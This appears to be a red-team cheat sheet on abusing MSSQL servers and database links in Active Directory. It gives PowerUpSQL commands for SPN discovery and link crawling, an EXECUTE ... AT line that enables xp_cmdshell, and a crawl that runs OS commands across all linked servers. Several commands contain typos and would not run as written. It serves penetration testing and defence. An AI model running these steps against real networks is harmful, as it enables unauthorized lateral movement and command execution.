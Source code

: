 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest trusts

### Requirement

* SPN and active SQL Server
* Executing Commands: Target server should have xp\_cmdshell or rpcout (disabled by default)
  * If rpcout is enalbed, you can enable xp\_cmdshell using\
    EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

```powershell
Get-SQLInstanceDomain

//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
```

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstnaceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

```powershell
Get-SQLServerLink -Instnace hostname_of_mssql_server -verbose
Get-SQLServerLinkCrawl -Instnace hostname_of_mssql_server -verbose

-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver & Windows Auth
```

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
//this runs accross all links
```
{% endcode %}

d
